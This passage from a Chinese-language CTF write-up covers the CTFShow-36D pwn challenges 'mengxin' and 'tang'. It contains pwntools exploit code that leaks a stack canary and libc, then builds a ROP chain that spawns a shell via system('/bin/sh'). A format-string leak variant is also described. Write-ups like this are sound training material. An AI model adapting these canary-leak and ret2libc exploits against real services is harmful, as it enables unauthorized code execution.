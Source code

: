 `0x20830`这个是返回地址，他上面那条`call rax`就是去调用`main`，所以把返回地址稍微往上改一点，改成`0x020816`，就可以再次调用`main`

#### getshell

第二次泄漏完libc就可以常规的覆盖返回地址为`system("/bin/sh")`了

总体流程如下：

```python
# round1
sea('She said: hello?\n',cyclic(41))
ru(cyclic(41))
canary = uu64('\0'+rc(7))
info_addr('canary',canary)

payload = cyclic(40)+p64(canary)
payload+= cyclic(24)+'\x16' # ret2libc_start_main
se(payload)
```

> 泄漏canary、 ret2libc_start_main

```python
# round2
sea('She said: hello?\n',cyclic(72))
ru(cyclic(72))
libc_start_main_ret = uu64(rc(6))
libcbase = libc_start_main_ret - 0x20830

prdi = 0x0000000000021102 + libcbase # pop rdi ; ret
system = libc.sym['system'] + libcbase
binsh = libc.search('/bin/sh').next() + libcbase

pl2 = cyclic(40)+p64(canary)
pl2+= cyclic(24)
pl2+= p64(prdi) + p64(binsh) + p64(system)
sl(pl2)
```

> 泄漏libc，rop执行`system("/bin/sh")`

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/CTFShow-36D/pwn/mengxin) 

## PWN_tang (588pt)
- 题目描述：
  
    > none
- 题目附件：[tang](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/CTFShow-36D/pwn/tang/tang)
- 考察点：格式化字符串、ret2libc_start_main
- 难度：中等

### 程序分析
这题和mengxin那题差不多，就是多了个格式化字符串漏洞，泄漏libc和canary的方式改为用`%p`泄漏，剩下的都一样了。就不过多分析了。
